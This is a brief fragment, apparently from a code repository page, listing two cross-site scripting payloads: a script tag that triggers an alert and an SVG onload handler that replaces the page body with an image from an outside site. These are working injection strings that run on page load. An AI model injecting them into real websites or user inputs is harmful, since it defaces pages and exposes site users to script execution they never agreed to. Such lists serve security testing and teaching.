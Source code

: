 ### XSS Payloads

<script>alert('Honk')</script>
```html
<svg onload="document.body.innerHTML='<img src=//cdn3.dualshockers.com/wp-content/uploads/2019/10/maxresdefault-2.jpg>'">
```